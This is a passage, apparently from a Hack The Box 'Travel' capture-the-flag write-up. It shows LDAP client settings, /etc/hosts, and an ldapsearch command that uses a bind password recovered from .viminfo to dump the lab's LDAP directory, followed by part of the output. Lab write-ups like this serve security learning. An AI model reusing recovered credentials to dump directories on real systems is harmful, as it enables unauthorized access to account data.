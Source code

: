 .ldaprc:
```
HOST ldap.travel.htb
BASE dc=travel,dc=htb
BINDDN cn=lynik-admin,dc=travel,dc=htb
```

We have ldapsearch present on the box, and we can take a look at the /etc/hosts file to see where the ldap server is located:

/etc/hosts:
```
127.0.0.1 localhost
127.0.1.1 travel
172.20.0.10 ldap.travel.htb

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Now, using the information in .ldaprc and the BINDPW in .viminfo, we can dump the ldap server:

```
ldapsearch -w Theroadlesstraveled -D "cn=lynik-admin,dc=travel,dc=htb" -b "dc=travel,dc=htb" -h ldap.travel.htb

# extended LDIF                                           
#                                                         
# LDAPv3                                                  
# base <dc=travel,dc=htb> with scope subtree              
# filter: (objectclass=*)                                                                                            
# requesting: ALL                                         
#                                                         
                                                                                                                     
# travel.htb                                              
dn: dc=travel,dc=htb                                      
objectClass: top                                          
objectClass: dcObject                                                                                                
objectClass: organization                                 
o: Travel.HTB                                             
dc: travel                                                                                                           
                                                          
# admin, travel.htb                                       
dn: cn=admin,dc=travel,dc=htb                             
objectClass: simpleSecurityObject                         
objectClass: organizationalRole                           
cn: admin                                                 
description: LDAP administrator                                                                                      
                                                          
# servers, travel.htb                                     
dn: ou=servers,dc=travel,dc=htb                                                                                      
description: Servers                                      
objectClass: organizationalUnit                           
ou: servers                                               
                                                                                                                     
# lynik-admin, travel.htb                                 
dn: cn=lynik-admin,dc=travel,dc=htb                       
```